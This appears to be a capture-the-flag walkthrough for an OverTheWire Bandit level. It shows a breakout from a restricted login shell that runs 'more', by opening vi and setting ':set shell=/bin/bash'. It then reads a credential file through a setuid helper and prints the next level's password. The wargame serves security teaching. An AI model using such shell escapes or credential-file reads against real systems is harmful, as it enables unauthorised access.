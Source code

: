 # Level 26

### Level Info

Logging in to bandit26 from bandit25 should be fairly easy… The shell for user bandit26 is not **/bin/bash**, but something else. Find out what it is, how it works and how to break out of it.

> NOTE: if you’re a Windows user and typically use Powershell to `ssh` into bandit: Powershell is known to cause issues with the intended solution to this level. You should use command prompt instead.

### Commands you may need to solve this level

ssh, cat, more, vi, ls, id, pwd

# Solution

If we attempt to connect using the key, the following output appears:

```sh
bandit25@bandit:~$ ssh -i bandit26.sshkey bandit26@localhost -p 2220
.
.
.
  Enjoy your stay!

  _                     _ _ _   ___   __  
 | |                   | (_) | |__ \ / /  
 | |__   __ _ _ __   __| |_| |_   ) / /_  
 | '_ \ / _` | '_ \ / _` | | __| / / '_ \ 
 | |_) | (_| | | | | (_| | | |_ / /| (_) |
 |_.__/ \__,_|_| |_|\__,_|_|\__|____\___/ 
Connection to localhost closed.
```

To understand what is happening, we can check the `/etc/passwd` file to see what `bandit26` executes when logging in:

```sh
bandit25@bandit:~$ cat /etc/passwd | grep bandit26
bandit26:x:11026:11026:bandit level 26:/home/bandit26:/usr/bin/showtext
andit25@bandit:~$ cat /usr/bin/showtext
#!/bin/sh

export TERM=linux

exec more ~/text.txt
exit 0
bandit25@bandit:~$ cat /home/bandit26/text.txt
cat: /home/bandit26/text.txt: Permission denied
```

The script executes **showtext**, which is a bash script that runs the **more** command on the `text.txt` file, to which we do not have access.

Since the **more** command is used, we can interact with its options before the connection closes. To achieve this, we need to ensure that not all content is displayed. How? By reducing the size of the terminal window.

```sh
  _                     _ _ _   ___   __
 | |                   | (_) | |__ \ / /  
 | |__   __ _ _ __   __| |_| |_   ) / /_  
 | '_ \ / _` | '_ \ / _` | | __| / / '_ \
:set shell=/bin/bash     
```

In **more** mode, pressing the **V** key allows us to enter visual mode. Using a colon (**:**), we can inject commands. For example, we can use the ***set*** command to define a variable, which in this case will be a bash shell.

We execute the variable, and:


```sh
 | |                   | (_) | |__ \ / /  
 | |__   __ _ _ __   __| |_| |_   ) / /_  
 | '_ \ / _` | '_ \ / _` | | __| / / '_ \
:shell
bandit26@bandit:~$ 
```

We are now in a bash shell:

```sh
bandit26@bandit:~$ ls
bandit27-do  text.txt
bandit26@bandit:~$ cat text.txt 
  _                     _ _ _   ___   __  
 | |                   | (_) | |__ \ / /  
 | |__   __ _ _ __   __| |_| |_   ) / /_  
 | '_ \ / _` | '_ \ / _` | | __| / / '_ \ 
 | |_) | (_| | | | | (_| | | |_ / /| (_) |
 |_.__/ \__,_|_| |_|\__,_|_|\__|____\___/ 
```

We can see that the text was the banner.  
Now, we have a binary called **bandit27-do**. Since we have previously worked with this binary, we can use it to gain access to `bandit27`.


```sh
bandit26@bandit:~$ ./bandit27-do cat /etc/bandit_pass/bandit27
upsNCc7vzaRDx6oZC6GiR6ERwe1MowGB
```

# Password for level 27:

upsNCc7vzaRDx6oZC6GiR6ERwe1MowGB
